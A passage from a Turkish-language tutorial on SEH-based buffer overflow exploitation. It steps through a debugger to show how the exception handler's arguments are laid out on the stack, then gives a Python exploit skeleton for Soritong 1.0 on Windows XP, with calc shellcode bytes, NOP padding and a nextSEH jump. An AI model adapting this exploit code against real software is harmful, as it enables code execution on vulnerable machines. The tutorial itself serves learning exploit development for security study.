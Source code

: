 breakpoint koyduktan sonra altta bize vermiş olduğu hata yazısından yola çıkarak `SHIFT+F7/F8/F9` kısayolundan birini kullanarak breakpoint olan noktaya gidelim. F8 ile sırasıyla `SE Handler` fonksiyonunun aldığı argümanları izleyelim.

![14](img/0x03/14.png)

Stack içerisinde aldığı argümanların değerine bakacak olursak 2. argümanda bizim nextSEH adresimizi tutan adresi tutmakta. Bu 2. argumanıda sol üst tarafta nerden aldığına bakacak olursak `EBP+C`'den almış oluyor

ESP'nin gösterdiği adres eax içerisine yazılıp daha sonra Arg5 içerisine aktarılıyor sonra sırasıyla Arg4 => EBP+14 (0x14=20) , Arg3 => EBP+10 (0x10=16), Arg2 => EBP+C (0xC=12) olarak değerler kaydedilmektedir.

Peki güzel hoş ama bence burda bir soru işareti var :/ Biz `SE Handler` fonksiyonunun adresinin olduğu alanı overwrite ediyoruz. Yani aslında program `SEH` fonksiyon adresini `EIP` üzerine yazmak yerine bizim overwrite ederek yazmış olacağımız `pop pop ret` işlemini gerçekleştiren adresi `EIP` üzerine yazacak. Böyle olunca da sanki bizim `SEH` fonksiyonu çalışmayacak.

O halde `SEH` alanına `CCCC` yazarak programımızı debugger üzerinde çalıştırıp bir inceleyelim bakalım arka tarafta işler nasıl gerçekleşecek...

```python
# Soritong 1.0 SEH Based Exploit
# Tested :  Windows XP SP3 X86

calc = (b"\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1"+
b"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30"+
b"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa"+
b"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96"+
b"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b"+
b"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a"+
b"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83"+
b"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98"+
b"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61"+
b"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05"+
b"\x7f\xe8\x7b\xca")

padding = b"\x90"*584
nextSEH = b"\xeb\x06\x90\x90" # jump 6 byte
SEH = b"CCCC"

exploit = padding + nextSEH + SEH #+ calc
```